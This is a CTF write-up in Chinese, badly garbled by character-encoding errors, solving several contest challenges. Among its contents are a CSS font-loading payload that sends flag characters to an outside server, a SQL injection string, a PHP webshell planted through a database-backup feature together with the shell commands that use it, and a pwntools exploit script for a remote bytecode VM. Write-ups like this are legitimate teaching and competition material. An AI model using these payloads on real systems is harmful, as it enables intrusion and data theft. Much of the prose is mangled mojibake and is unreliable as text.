fileä¸è¯­ï¼Œåªæ˜¯ä¸€å‘³åœ°åšç§°è¿™æ˜¯dataï¼›CyberChef看到开头的00 01 00 00就兴奋地说这是TrueType字体，å»ä½ çš„å§ã€‚

迷茫的时候，ä¸å¦¨å¬å¬ç›´æ–¹å›¾è¯´çš„é“ç†ï¼š

<!---->

æ•°æ®å‘ˆç°æ˜æ˜¾è§„律性。CE~D1出ç°é¢‘ç‡å¼‚常地高，C0~CDã€D3~FE没有出ç°ï¼ŒFFåªåœ¨æ–‡ä»¶å¼€å¤´è¿ç»­å‡ºç°äº†4个。

一些字节åºåˆ—（如“NGINâ€ï¼‰é¢‘ç¹åœ°å‡ºç°ï¼Œäºæ˜¯æˆ‘å°è¯•ç”¨æ–‡æœ¬ç¼–辑器打开它。æ§åˆ¶å­—符出奇地少……åŸæ¥è¿™ä¸ªæ–‡ä»¶å¯ä»¥ç”¨UTF-8ç¼–ç è¯»å–ï¼

<!---->

全文仅在文件开头出ç°äº†5处解ç é”™è¯¯ã€‚å移é‡å‡‘个整，猜测文件头24字节跟åé¢çš„ç¼–ç æ–¹å¼ä¸åŒã€‚进一步确认数æ®å‘ç°ç¡®å®å¦‚此：22处的两个字节E2 34是å°ç«¯åºçš„13538，ä¸æ–‡ä»¶å¤§å°6779的两å€13558é常æ¥è¿‘，应是æŸç§é•¿åº¦æŒ‡ç¤ºï¼Œä¸å¿…深究了。

å»æ‰æ–‡ä»¶å¤´24字节，余下部分UTF-8解ç å¾—到的字符串中，除了ASCII部分，其余字符全部集中在U+0392~U+047D。`εNGINĞ—`（Engine）和`gĞMEοBJEÑ¡T`（GameObject）等形似å•è¯çš„文本é‡å¤å‡ºç°äº†å¤šæ¬¡ã€‚

这是å•è¡¨æ›¿æ¢å¯†ç å—？我å°è¯•æŒ‰å•è¡¨è§£ï¼Œä½†é‡åˆ°äº†å†²çªã€‚况且，除了UnityEngineå’ŒGameObject，没有别的è¯äº†ã€‚这两个è¯å‡ºç°å¾—也太多了å§ï¼

大å°å†™ç¿»è½¬ã€æ其频ç¹å‡ºç°çš„å•è¯ã€æ˜ç¡æ¸¸æˆâ€¦â€¦

是使用密钥的异或加密。

两个GameObject之间总是相隔22个字符，正是字符串“UnityEngine.GameObjectâ€çš„长度。用它作为异或密钥解密的è¯ï¼ŒASCII部分已ç»èƒ½è¯»å‡ºæ¥äº†ã€‚

```

?
??   "?Ty?e"?: "?ole?o??.Gen?ra?Lo?alD?taI?e??,
 ?  ?0o?s" ?: {?
??    ? "?la?": ?I.W?n??.Sle?p.Ğœor?"
?   ?,??    ?de?ic?UUI?" :?"??
  ? "?se?Loc?lDa?a??rsio?Id? :?"0.?.1"?
??   "?ur?cc?unt?ame? ??    ? :?""?
 ?  "?i??    ?  ?  ?   ?   ? ??0,
?  ?"s?lec?edS?r??rInd?x"?  ?: 0?
```

0o?sæ˜æ˜¾å°±æ˜¯0ops。æ˜ç¡æ¸¸æˆçš„å字大概是I Wanna Sleep More。（æœä¸åˆ°å•Šï¼ˆ

到这一步è¦æ˜¯çœ‹å‡ºæ¥äº†çš„è¯ç›´æ¥æ交`0ops{I.Wanna.Sleep.More}`就过了，但是我真以为那åªæ˜¯æ¸¸æˆå。

Unicode字符的对应关系ä»ä¸ç¡®å®šã€‚我å°è¯•æŒ‰å•è¡¨è§£ï¼Œä½†é‡åˆ°äº†å†²çªã€‚将解出的æ˜æ–‡æŒ‰22个字符一行æ’æˆè¡¨ï¼Œå¯è§æœ‰çš„列清一色æ˜æ–‡ï¼Œæœ‰çš„列清一色Unicode字符。这说æ˜å¯†é’¥è¿˜ä¸å¯¹ï¼Œè€Œä¸”密钥里有Unicode字符。

æ ¹æ®ä¸Šä¸‹æ–‡å¯ä»¥çŒœæµ‹æœªè§£å¯†å¤„的字符，然åæ¨æ–­å¯†é’¥å¯¹åº”ä½ç½®çš„字符编ç ã€‚但考虑到“UnityEngine.GameObjectâ€å·²ç»å¾ˆåˆç†äº†ï¼Œåªèƒ½æ˜¯åŒå½¢å­—符替æ¢äº†ã€‚

最终得到真正的密钥“UnÑ–tуΕnginе.GĞ°meΟbjeÑtâ€ã€‚

```
0055  U  LATIN CAPITAL LETTER U
006E  n  LATIN SMALL LETTER N
0456  Ñ–  CYRILLIC SMALL LETTER BYELORUSSIAN-UKRAINIAN I
0074  t  LATIN SMALL LETTER T
0443  у  CYRILLIC SMALL LETTER U
0395  Ε  GREEK CAPITAL LETTER EPSILON
006E  n  LATIN SMALL LETTER N
0067  g  LATIN SMALL LETTER G
0069  i  LATIN SMALL LETTER I
006E  n  LATIN SMALL LETTER N
0435  е  CYRILLIC SMALL LETTER IE
002E  .  FULL STOP
0047  G  LATIN CAPITAL LETTER G
0430  Ğ°  CYRILLIC SMALL LETTER A
006D  m  LATIN SMALL LETTER M
0065  e  LATIN SMALL LETTER E
039F  Ο  GREEK CAPITAL LETTER OMICRON
0062  b  LATIN SMALL LETTER B
006A  j  LATIN SMALL LETTER J
0065  e  LATIN SMALL LETTER E
0441  Ñ  CYRILLIC SMALL LETTER ES
0074  t  LATIN SMALL LETTER T
```

```python
with open("SleepyConfig.bin", "rb") as f:
    a = f.read().decode(errors="replace")[24:]
key = "UnÑ–tуΕnginе.GĞ°meΟbjeÑt"
a = "".join(chr(c ^ ord(key[i % len(key)])) for i, c in enumerate(map(ord, a)))
with open("SleepyConfig.json", "w") as f:
    f.write(a)
```

```json

{
    "$Type" : "MoleMole.GeneralLocalDataItem",
    "0ops"  : {
        "flag": "I.Wanna.Sleep.More"
    },
    "deviceUUID" : "",
    "userLocalDataVersionId" : "0.0.1",
    "curAccountName"         : "",
    "uid"                    : 0,
```

## Expr-Warmup

[quote="nuIl, post:28, topic:365479"]
gemini 2.5 proå’Œdeepseek r1是真ç¥
[/quote]

ä»æ¨¡å‹æ¥å—输入到输出下列内容，ä¸åˆ°90秒。

```console
> a
> b s
> c s
```

我觉得就è¿æ示è¯éƒ½æ²¡ä»€ä¹ˆå¥½ç½—列的。å编译的代ç æ˜¯ç”±Ghidra生æˆçš„åˆå§‹çŠ¶æ€ï¼Œæœªä½œä»»ä½•åŠ å·¥ã€‚总之就是把å¯æ‰§è¡Œæ–‡ä»¶æ‹–到Ghidra里，然å把伪代ç å¤åˆ¶åˆ°Gemini里，人类在其中主è¦èµ·åˆ°ä¸€ä¸ªå¤åˆ¶ç²˜è´´çš„作用。å¯ä»¥[在此查看完整对è¯](https://gist.github.com/satgo1546/de0615d31a69de129aa59cb981246824)。

---

以上是我在æ交åé‡å»ºçš„，我åšå‡ºæœ¬é¢˜å¹¶æ²¡æœ‰ä¾é AI。最åˆæˆ‘用IDA，但版本太旧，无法翻译switch，å编译结æœä¸­æ¼æ‰äº†å¤„ç†è¿ç®—符的核心代ç ï¼Œå› æ­¤ç¬¬ä¸€æ¬¡AIå°è¯•å¤±è´¥äº†ã€‚直到我检查到evaluate函数时æ‰å‘ç°ä»£ç é‡Œèººç€ä¸ª`jmp rax`，这时è·ç¦»äººå·¥é˜Ÿåšå‡ºä¹Ÿä¸è¿œäº†ã€‚太å¯æƒœäº†ï¼Œä¸ç„¶é¦–æ€è¿˜èƒ½å¿«å¾ˆå¤šï¼ˆ

程åºçš„功能在逆å‘完æˆå很清楚：输入三个逆波兰表达å¼ï¼Œå…¶ä¸­aã€bã€c为三个预定义常é‡ï¼Œpã€mã€xã€d对应加å‡ä¹˜é™¤ï¼Œsã€r是平方ä¸å¼€å¹³æ–¹ã€‚目标是使输入的三个表达å¼ç»„æˆçš„å‘é‡æ»¡è¶³((0, 0, 1) × (0, 1, 0)) × (input × (1, 0, 0)) ∥ (0, b², c²)。

人工队å大牢：妙妙函数签å和致死é‡æŒ‡é’ˆå˜æ¢ï¼ˆå…¶å®æ˜¯ç»“æ„体被编译æ‰å¯¼è‡´çš„），å‰ä¹˜å‡½æ•°å‚数还是å的……这就是入门/简å•é¢˜ã€‚逆å‘选手真是太有生活了 😾

## Gradient (CSS)

flag.php外网无法访问，åªèƒ½é€šè¿‡botç›´æ¥è®¿é—®å†…网的`http://php:80/flag.php`。

目标页é¢ä¸Šå”¯ä¸€èƒ½æ³¨å…¥çš„是一个CSS。

bot好åƒæ˜¯ä¸ªé€šç”¨ç¨‹åºï¼Œé‡Œé¢æ®‹ç•™çš„PoW什么的代ç éƒ½æ²¡ç”¨ä¸Šã€‚唯一返å›çš„ä¿¡æ¯æ˜¯è®¿é—®æ˜¯å¦æˆåŠŸã€‚åªè¦åŠ è½½å‡ºæ¥å°±ç®—æˆåŠŸã€‚如æœèƒ½æ³¨å…¥JS，或许还能通过å¡æ­»å¯¼è‡´è¶…æ—¶æ¥è¿”å›é”™è¯¯ã€‚åªèƒ½æ§åˆ¶CSS就没辙了。

Gemini说å¯ä»¥è®©bot访问选手æ§åˆ¶çš„æœåŠ¡å™¨æ¥æ³„露flag，除此之外都在胡言乱语，é—言是一æ¡JS payload，哪æ¥çš„JS注入点我请问了。我手上没有ç°æˆçš„æœåŠ¡å™¨ï¼Œäºæ˜¯å¼€äº†æŠŠæ–°çš„IP Hunter让bot访问，结æœè¿˜çœŸå¯ä»¥è®¿é—®åˆ°ã€‚基础的背景图片信标（beacon）也å¯è¡Œï¼Œä»…用äºæ˜¾ç¤ºçš„资æºæ²¡æœ‰è·¨åŸŸé—®é¢˜ã€‚

flag是显示在元素内的真å®æ–‡æœ¬ã€‚如æœæ˜¯å…ƒç´ å±æ€§ï¼Œå¯ä»¥ç”¨å±æ€§é€‰æ‹©å™¨é€‰ä¸­ï¼Œä»¤ä¸åŒçš„字符加载ä¸åŒçš„背景图片。但对äºçœŸå®æ–‡æœ¬ï¼ŒCSS至今除了`:empty`选择器以外没有其他区分的方法，而`:empty`显然ä¸å¤Ÿç”¨ã€‚

选择器ä¸èƒ½ç²¾å‡†é€‰ä¸­çš„è¯ï¼Œå°±è¦é€šè¿‡å…¶ä»–æ–¹å¼æ¥è®©ä¸åŒçš„字符产生ä¸åŒçš„请求。答案是字体。`@font-face`声æ˜ä¸­å¯ä»¥æŒ‡å®šunicode-rangeå±æ€§ï¼Œä»…在页é¢ä¸­ç”¨åˆ°å¯¹åº”字符时加载字体å­é›†ã€‚åšè¿‡ä¸­æ–‡ç½‘络字体的åŒå­¦åº”该知é“这一点：泛用字体会分æˆè‹¥å¹²ä¸ªå¸¸ç”¨å­—包和生僻字包，å‡å°‘未使用的字符带æ¥çš„æµé‡å’Œä¼ è¾“时间的浪费。

没有æœåŠ¡å™¨æ€ä¹ˆåŠï¼Ÿ~~开几åƒæŠŠIP Hunter~~ 找个云函数æ供商就有了，Cloudflare Workers是å…费的，ä¸è¿‡æµ‹äº†ä¸€ä¸‹å¥½åƒå›½å†…访问ä¸äº†ï¼Œæœ€å我用的是Cloudflare Pages Functions。创建一个hello world函数，就能在日志页é¢ç›‘æ§è¯·æ±‚。

```js
f = new FormData()
f.set('gradient','red,red)}'+
Array.from({length:64},(_,i)=>Array.from({length:95},(_,j)=>(j+=32,`
@font-face {
  font-family: F${i};
  src: url("https://114514.pages.dev/${i}/${j}");
  unicode-range: U+${j.toString(16).toUpperCase()};
}`)).join('') + `span:nth-child(${i+1}) {
  font-family: F${i};
}`).join('') // å°†114514.pages.dev改为å¯æ§æœåŠ¡å™¨åœ°å€
+'body{background:url("https://114514.pages.dev/from-penguin");--a:(')
fetch('/index.php', {body: f, method: 'POST'})
```

<!---->

除了span中出ç°çš„字符，æµè§ˆå™¨è¿˜ä¼šè¯·æ±‚空格对应的字体，是因为字体尺寸信æ¯ä»¥ç©ºæ ¼æ‰€åœ¨å­—体为标准。忽略以`/32`结尾的地å€å，æµè§ˆå™¨å…¶ä½™è¯·æ±‚的地å€å¦‚下。

```
https://114514.pages.dev/0/48
https://114514.pages.dev/1/111
https://114514.pages.dev/2/112
https://114514.pages.dev/3/115
https://114514.pages.dev/4/123
https://114514.pages.dev/5/85
https://114514.pages.dev/6/53
https://114514.pages.dev/7/101
https://114514.pages.dev/8/95
https://114514.pages.dev/9/36
https://114514.pages.dev/10/116
https://114514.pages.dev/11/116
https://114514.pages.dev/12/70
https://114514.pages.dev/13/125
https://114514.pages.dev/from-penguin
```

## realLibraryManager

光看å字“图书馆管ç†ç³»ç»Ÿâ€ï¼Œä¸€è‚¡å¤§ä½œä¸šçš„æ°”æ¯å°±æ‰‘é¢è€Œæ¥ã€‚

因为验è¯ç åŠ è½½ä¸å‡ºï¼Œæ²¡æ³•ç™»å½•ã€‚登录æˆåŠŸåè¦è·³è½¬çš„地å€å†™åœ¨å‰ç«¯ï¼Œä½†ç›´æ¥è®¿é—®æœ‰æƒé™æ§åˆ¶ã€‚

验è¯ç ä¸èƒ½ä½œä¸ºå›¾ç‰‡è§£æ，但直æ¥è®¿é—®èƒ½çœ‹åˆ°æŠ¥é”™ï¼š

```html
<br />
<b>Fatal error</b>:  Uncaught Error: Call to undefined function Tool\imagecreatetruecolor() in /var/www/html/Tool/Verify.class.php:25
Stack trace:
#0 /var/www/html/Tool/Verify.class.php(13): Tool\Verify-&gt;createPic()
#1 /var/www/html/Common/Controller/LoginController.class.php(24): Tool\Verify-&gt;__construct()
#2 /var/www/html/Base/Base.class.php(74): Common\Controller\Login-&gt;showVerify()
#3 /var/www/html/Base/Base.class.php(10): Base::distributeRequest()
#4 /var/www/html/index.php(4): Base::Run()
#5 {main}
  thrown in <b>/var/www/html/Tool/Verify.class.php</b> on line <b>25</b><br />
```

该报错泄露了若干文件路径，但都是类定义，没法直æ¥è®¿é—®æ¥åˆ©ç”¨ã€‚

index.phpçš„`?p=&c=&a=`å‚æ•°å¯ä»¥è°ƒç”¨ä»»æ„æ§åˆ¶å™¨çš„ä»»æ„方法，这一点å¯ä»¥ç”±æŠŠaå‚数改为`__constructor`没有报错确定。但ä¸çŸ¥é“具体有哪些方法，也没法利用。

ãŠé¡˜ã„，如æœæ²¡æœ‰æºä»£ç çš„è¯ï¼Œã‚ãŸã—……

ä»ç³»ç»Ÿå†…ä¼¼ä¹æ²¡æ³•æ³„露æºä»£ç ï¼Œè¯¥æ‰¾åœºå¤–æ´åŠ©äº†ã€‚在GitHub上æœç´¢æœ€chinglishçš„`distributeRequest`，找到了截图完全一致的[horvey/Library-Manager](https://github.com/horvey/Library-Manager)。å¦å¤–还有个疑似抄袭的[Galaxien0777/MyLibrary](https://github.com/Galaxien0777/MyLibrary)。

阅读LoginController.class.php，å‘ç°å…¶ä¸­éªŒè¯ç ç”¨`!=`比较。PHPå’ŒJS一样，`==`å’Œ`!=`是糟粕设计，åªè¦æŠŠéªŒè¯ç å‚数抠了就能通过验è¯äº†ã€‚

就在下方，账å·çœ‹èµ·æ¥å¯ä»¥SQL注入，但有htmlentities拦ç€ï¼Œä¸è¡Œã€‚用readmeæ供的账å·10000和密ç 123456å¯ä»¥ç™»å½•ï¼Œå…¶ä»–è´¦å·éƒ½ä¸å­˜åœ¨ã€‚

```php
        //先验è¯éªŒè¯ç ï¼Œæ­£ç¡®å†éªŒè¯è´¦å·å¯†ç ï¼Œå‡å°æ•°æ®åº“å‹åŠ›
        if($code != $rightCode){
            $this->sendJsonMessage("验è¯ç é”™è¯¯",1);
        }
        
        //验è¯è´¦å·å¯†ç 
        $userModel = new UserModel;
        $where = "id='{$userId}' and pwd='{$password}'";
        $result = $userModel->fetchOne($where);
```

```js
f = new FormData()
f.set('userId', "10010")
f.set('password', "123456")
fetch("/?p=Common&c=Login&a=login", {
  body: f,
  method: "POST",
  credentials: "include",
})
```

总之先进系统逛逛。

<!---->


图书查询页é¢æœ‰ä¸ªæ˜¾è‘—çš„SQL注入点。有人上个月在这个七年å‰çš„仓库æ了个工å•[There is a sql injection vulnerability](https://github.com/horvey/Library-Manager/issues/9)æ到了这个问题，还给出了PoC，想必就是æ示了。在书å·æŸ¥è¯¢æ¡†ä¸­æ交下列内容，å¯å¾—注册用户列表：10000ã€10010ã€18888ã€88888ã€1145141920。å‰å››ä¸ªç”¨æˆ·ä¸ä»“库中的book.sql对得上，readme里的信æ¯æ˜¯é”™çš„。管ç†å‘˜åªèƒ½æ˜¯1145141920了。

```
' or updatexml(1,concat(0x7e,(select id from user limit 0,1),0x7e),1) or '
```

å†æŸ¥åˆ°ç®¡ç†å‘˜å¯†ç MD5是9cfbe247708a79cd184d832de35504d6，在cmd5.com查到æ˜æ–‡`adMin1`。用该账å·å¯†ç ç™»å½•ç³»ç»Ÿã€‚

工具æ ä¸Šçš„“数æ®å¤‡ä»½â€æ—¶éšæ—¶ç°ï¼Œæ˜¯æ–°å¢çš„功能。点击备份，就能下载到全é‡æ•°æ®ã€‚

ä¸åŸä»“库中数æ®æ¯”较，åªæœ‰ç”¨æˆ·è¡¨æœ‰å˜ï¼š10010ã€18888ã€88888三个用户的密ç è¢«ä¿®æ”¹äº†ã€‚这些MD5无法还åŸã€‚è´¦å·18888的登录日期是2025å¹´3月27日。在执行备份之å‰ï¼ŒæœåŠ¡å™¨ä¸Šå·²ç»å­˜æœ‰ä¸€ä»½æ•°æ®æ–‡ä»¶ï¼Œæœ€æ–°æ•°æ®ä¸ä¹‹ç›¸æ¯”åªå¤šäº†ä¸€ä¸ªç®¡ç†å‘˜è´¦å·ã€‚

åŸä»“库里å¦ä¸€ä¸ªå·¥å•[There is a storage xss vulnerability in the background](https://github.com/horvey/Library-Manager/issues/10)指出åå°æœ‰å­˜å‚¨å‹XSSæ¼æ´ã€‚试了一下确å®èƒ½æ³¨å…¥ï¼Œä½†æ²¡ä»€ä¹ˆç”¨ã€‚

拖库也没什么用。注æ„到å¯ä»¥ç”¨æ•°æ®åº“ä¿¡æ¯è¦†ç›–文件。我把/var/www/html/Admin/Controller/IndexController.class.php覆盖æ‰ï¼Œè®¿é—®ç®¡ç†å‘˜ä¸»é¡µï¼Œç»“æœå¼¹å‡ºäº†alert('xss')。这时我æ„识到，添加一本简介为`<?php … ?>`的书，然å备份数æ®åº“到一个PHP文件，就å¯ä»¥æ‰§è¡Œä»»æ„PHP代ç ã€‚

```php
<?php exec($_GET[chr(101)]); ?>
```

将数æ®åº“备份到/var/www/html/e.php，然å访问`/e.php?e=ls%20/%20%3E/var/www/html/a.txt`。ä»`/a.txt`得知flag文件å，然å访问`/e.php?e=cp%20/F1aaaAagG%20/var/www/html/a.txt`。

<details>
<summary>Admin/Controller/BackupController.class.php</summary>

这个也能注入ï¼

```php
<?php
namespace Admin\Controller;
use Base\BaseController;

final class Backup extends BaseController{

    public function index(){
        $this->accessPage();

        $this->smarty->display("Backup/index.html");
    }

    //Json借书和还书æ¥å£
    public function run(){
        $this->accessJson();

        $backupFile  =  $_POST['path'];
        if($backupFile == ""){
            $this->sendJsonMessage("请填写完整信æ¯",1);
        }

        // æ„建备份命令
        $command = "mysqldump --user={$GLOBALS['conf']['db_user']} --password={$GLOBALS['conf']['db_pwd']} {$GLOBALS['conf']['db_name']} > {$backupFile}";

        exec($command);

        $this->sendJsonMessage("æ“作æˆåŠŸ",0);
    }
}
```

</details>

## UnrealPacket

<aside>* 解出äºæ示放出之å‰</aside>

哦è±è¿˜æœ‰3A大作ç©çš„（指Unre<u>a</u>lP<u>a</u>cket.pc<u>a</u>p）

优化好烂ï¼ä¸€ç›´æ‰å¸§ï¼

<!---->


> ç©å®¶æ‰å‡ºäº†è¿™ä¸ªä¸–ç•Œ

æ ¹æ®æ¸¸æˆå†…è¿æ¥ä¸éœ€è¦å¡«ç«¯å£å·å¯çŸ¥ï¼ŒæœåŠ¡å™¨ç«¯å£å·æ˜¯å›ºå®šçš„。抓包看到æœåŠ¡å™¨ç«¯å£å·æ˜¯7777。

两æ¡è·¯çº¿ï¼šæ‰‹å·¥è§£æ字节æµã€åœ¨æ¸¸æˆå†…é‡æ”¾ã€‚

在æœåŠ¡ç«¯å°„击，å­å¼¹ä¼šç«‹åˆ»æ¶ˆå¤±å¹¶ç”Ÿæˆå­—符方å—；在客户端射击，客户端会错误预测å­å¼¹å›å¼¹ï¼Œç­‰å¾…æœåŠ¡ç«¯åŒæ­¥æ‰ä¼šé”€æ¯å­å¼¹å¹¶ç”Ÿæˆå­—符方å—。因此字符方å—ç”±æœåŠ¡ç«¯ç”Ÿæˆï¼Œæ¶ˆæ¯æ¥è‡ªæœåŠ¡ç«¯ã€‚

将抓包工具和游æˆæ”¾åœ¨åŒä¸€æ¡Œé¢å½•å±è§‚察，字符方å—显示出æ¥çš„ç¬é—´æ”¶åˆ°çš„大包一定是生æˆå­—符方å—的包。

```
00a0  8b 5b 47 00 80 63 20 00 00 00 00 00 01 00 00 00   .[G..c .........
00b0  00 21 00 00 00 33 35 43 43 33 42 33 36 34 32 38   .!...35CC3B36428
00c0  42 45 33 42 43 39 42 38 33 35 44 38 36 32 30 30   BE3BC9B835D86200
00d0  43 31 35 44 45 00 02 00 00 00 51 00 00 03         C15DE.....Q...
```

```
0050  f0 05 26 24 c5 1b 57 b7 5c 27 da 7a 80 63 20 00   ..&$..W.\'.z.c .
0060  00 00 00 00 01 00 00 00 00 21 00 00 00 33 35 45   .........!...35E
0070  37 45 32 46 46 34 36 31 45 37 44 30 36 43 37 36   7E2FF461E7D06C76
0080  30 30 39 42 38 42 34 30 46 34 41 39 33 00 02 00   009B8B40F4A93...
0090  00 00 54 00 00 30 c2 2e 78 4a 00 86 30 29 a8 0f   ..T..0..xJ..0)..
```

这两个包中，å六进制字符串之å的第一个å¯æ‰“å°å­—符就是方å—上显示的字符。但是，并ä¸æ€»èƒ½æ‰¾åˆ°è¿™æ ·çš„包。更多时候，包ç»è¿‡å‹ç¼©ã€‚找到的资料称Unreal 5使用了Oodle网络å‹ç¼©åº“，EXE中的字符串也è¯å®Oodle的存在，该库是闭æºåº“。ä¸èƒ½è§£å‹å°±æ— æ³•è§‚测包中内容，手工解æ的路堵死了，解å‹å¯èƒ½è¿˜æ˜¯å¾—游æˆæœ¬ä½“æ¥åšã€‚

通信采用UDPå议就æ„味ç€é‡ä¼ å’Œä¿åºéƒ½éœ€è¦å¼•æ“自行å®ç°ã€‚我å°è¯•ç›´æ¥æŒ‰é¡ºåºé‡æ”¾æ‰€æœ‰æœåŠ¡ç«¯å‘出的包，客户端ä¸æ¥å—è¿æ¥ã€‚æ¨æµ‹å¯èƒ½ä¸å®¢æˆ·ç«¯å‘èµ·è¿æ¥æ—¶å议中的éšæœºå‚数有关。

é‡æ”¾å®¢æˆ·ç«¯å‘出的包，æœåŠ¡å™¨å€’是å¯ä»¥æ¥å—，但里é¢æ²¡ä¿¡æ¯é‡ï¼Œå…¨æ˜¯å°åŒ…，也ä¸ä¼šå¯¹æ¸¸æˆåœºæ™¯äº§ç”Ÿä»»ä½•å½±å“。

客户端æ¯æ¬¡å‘èµ·è¿æ¥æ—¶çš„首字节似ä¹æ˜¯éšæœºä½†åˆä¸é‚£ä¹ˆéšæœºï¼Œæ€»æ˜¯åœ¨A0ã€A4ã€B0等几个值里。æ¥ä¸‹æ¥çš„所有包的开头都ä¸è¿™ä¸ªå­—节有关，所以盲目é‡æ”¾æœåŠ¡ç«¯å‘出的包，客户端ä¸ä¼šæ¥å—。

我å°è¯•ä¸æ–­é‡å¼€å®¢æˆ·ç«¯æ¥è¯•å›¾æ’上正确的首字节。首字节错误的时候完全è¿ä¸è¿›ã€‚有一å›æ’上了，æˆåŠŸè¿›å…¥äº†ä¸–界，ä¸è¿‡æ²¡æœ‰æ”¶åˆ°åœ°å›¾ä¿¡æ¯ã€‚抓到的å‰å‡ æ¡æ¶ˆæ¯ä¸é¢˜ç›®æ供的记录一致。å‡æœåŠ¡ç«¯å¯èƒ½æœ‰æˆã€‚

äºæ˜¯æˆ‘想，è¦æ˜¯æœåŠ¡ç«¯é‡æ”¾æ—¶æ ¹æ®å®¢æˆ·ç«¯å‘é€çš„首字节校正æ¥ä¸‹æ¥çš„æ•°æ®ä¸­çš„首字节，å¯èƒ½å°±èƒ½è¯±éª—客户端è¿ä¸Šæ¥äº†ã€‚试了一下还真是，客户端æ¯æ¬¡éƒ½èƒ½è¿ä¸Šäº†ã€‚

地图加载ä¸å‡ºæ¥å¯èƒ½æ˜¯å› ä¸ºåŒç«¯ä¸åŒæ­¥ï¼ŒæœåŠ¡ç«¯å¯èƒ½éœ€è¦ç­‰å¾…收到对应数é‡å®¢æˆ·ç«¯çš„包之åå†å‘æ¥ä¸‹æ¥çš„包。ä¸è¿‡æˆ‘åªæ˜¯å‡æ…¢äº†å›æ”¾é€Ÿåº¦å°±è¶³å¤Ÿè®©å®¢æˆ·ç«¯ä¿¡ä»¥ä¸ºçœŸäº†ï¼Œå¤šè¯•å‡ æ¬¡æ€»æœ‰ä¸€æ¬¡èƒ½æ”¾å®Œçš„。

```python
import socket
import time
from scapy.all import rdpcap, UDP
sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
sock.bind(('', 7777))
print('listening')
while True:
    data, address = sock.recvfrom(1024)
    print(address)
    last_time = None
    for packet in rdpcap('UnrealPacket.pcap'):
        if UDP in packet and packet[UDP].sport == 7777:
            payload = bytearray(bytes(packet[UDP].payload))
            payload[0] ^= data[0] ^ 0xa4  # 校正首字节
            if last_time is not None:
                time_diff = packet.time - last_time
                time.sleep(float(time_diff) * 4)  # 0.25å€é€Ÿ
            last_time = packet.time
            sock.sendto(payload, address)
            print(address, packet.time)
    print('over')
    sock.close()
    break
```

<!----><video src="UnrealPacket.mp4" controls></video>

## ret2vmcode

è€é—®é¢˜ï¼šä¸ºä»€ä¹ˆè¿™é¢˜çš„分类是pwn而ä¸æ˜¯reverse 🤔

一个简å•çš„字节ç è™šæ‹Ÿæœºã€‚字节ç æ ¼å¼æ˜¯(1字节æ“作ç , 4字节æ“作数, 4字节æ“作数)，一æ¡æŒ‡ä»¤9字节。é™åˆ¶ç¨‹åºé•¿åº¦256字节，放在768字节内存头部。指令有9ç§ï¼Œä½†å‡æ³•å…¶å®æ˜¯åŠ æ³•ï¼Œæ‰€ä»¥å…¶å®åªæœ‰8ç§ã€‚内存读写指令åªèƒ½ä¿®æ”¹è™šæ‹Ÿæœºå†…存，但栈指令å¯ä»¥è¶Šç•Œã€‚没有跳转指令。Geminié”评：栈æ€ä¹ˆæ˜¯å¾€ä¸Šé•¿çš„？

有sys指令å¯ä»¥è¯»å†™æ–‡ä»¶ï¼Œä½†è¢«vm_checkç¦æ‰äº†ï¼Œè¯´æ˜æœ¬é¢˜ç›®æ ‡å°±æ˜¯è¯»å–/flag。因为字节ç åœ¨å†…存中，è¿è¡Œæ—¶å¯ä»¥ä¿®æ”¹ï¼Œåœ¨ç¨‹åºå¼€å¤´é€šè¿‡ä¸‰æ¡store指令正常地将å续指令的æ“作ç æ”¹æˆsyså°±å¯ä»¥äº†ã€‚读入字节ç æ—¶ç‰¹åˆ«æŒ‡å®šäº†ä»¥`\n`结尾，因此生æˆå­—节ç æ—¶è¦æ³¨æ„é¿å¼€ã€‚

```py
from pwn import *

context.arch = "i386"
p = remote("instance.penguin.0ops.sjtu.cn", 11451)

MOV = 0xf1
ADD = 0xf2
LOAD = 0xf7
STORE = 0xf8
def inst(opcode, arg1, arg2):
    return p8(opcode) + p32(arg1) + p32(arg2)

log.info("Receiving vm_mem address...")
p.recvuntil(b"VM Memory Initialized at ")
vm_mem_base = int(p.recvline().strip().decode().replace(".", ""), 16)
log.success(f"vm_mem base address: {vm_mem_base:#x}")

bytecode = b"\0" * 81
bytecode += inst(MOV, 1, vm_mem_base + 0xf0)
addr_9 = [len(bytecode)]
bytecode += inst(9, 3, 0)
bytecode += inst(MOV, 1, 0)
bytecode += inst(ADD, 1, 0)
bytecode += inst(MOV, 2, vm_mem_base + 0x100)
bytecode += inst(MOV, 3, 512)
addr_9.append(len(bytecode))
bytecode += inst(9, 1, 0)
bytecode += inst(MOV, 1, 1)
addr_9.append(len(bytecode))
bytecode += inst(9, 2, 0)
bytecode += b"\0" * (0xf0 - len(bytecode))
bytecode += b"/flag\0"
bytecode = b"".join(
    inst(MOV, 1, vm_mem_base + addr - 1)  # å¾®æ“é¿å¼€\n，ä¸æœåŠ¡å™¨å†…存分é…地å€æœ‰å…³
    + inst(MOV, 2,
        u32(bytecode[addr - 1 : addr] + b"\xf9" + bytecode[addr + 1 : addr + 3]))
    + inst(STORE, 1, 2)
    for addr in addr_9
) + bytecode[81:]
print(hexdump(bytecode))
assert b"\n" not in bytecode
assert len(bytecode) == 0xf6

log.info("Sending bytecode...")
p.recvuntil(b"Input your vmcode:\n")
p.sendline(bytecode)

log.info("Receiving output...")
print(p.recvall())
```

## ezELF

输入24字节，å‰8字节为解密密钥，中间8字节ä¸ä¸ºé›¶ï¼Œå8字节为输入到新进程的ç¯å¢ƒå˜é‡æ•´æ•°ã€‚主程åºå¯¹æ”¾åœ¨å†…存中的数æ®è¿›è¡Œäº†ä¸€è½®å¦‚下的简å•å¼‚或解密，然åfexecve。因为一般的ELF文件头部确定，根æ®è¯¥å¤´å¯åæ¨å¯†é’¥ã€‚

```c
void decrypt(unsigned long long *elf, unsigned long long key) {
  *elf++ = _byteswap_uint64(0xAAF012CD537B100LL - 0x20291416A12FA900LL * key);
  for (int i = 8; i < 0x3928; i += 8) {
    key = _byteswap_uint64(key + 0xDEADBEEF);
    *elf++ ^= key;
  }
}
```

<details lang=en>
<summary>Gemini 2.5 Pro Experimental 03-25</summary>

> **User**: Write Python code to guess the `key` and decrypt `encrypted_elf` in the following C code, based on the fact that a x64 Linux ELF starts with the bytes 7F 45 4C 46 02 01 01 00. Data of `encrypted_elf` are at offset 0x3020 in a file named `ezELF`. Write the decrypted ELF to file `ezELF2`. Do not brute force the key, as the space of potential keys is too large. Instead, reverse engineer the decryption process of the first QWORD to find out the key.
> 
> ```c
> void decrypt(unsigned char *encrypted_elf, unsigned long long key) {
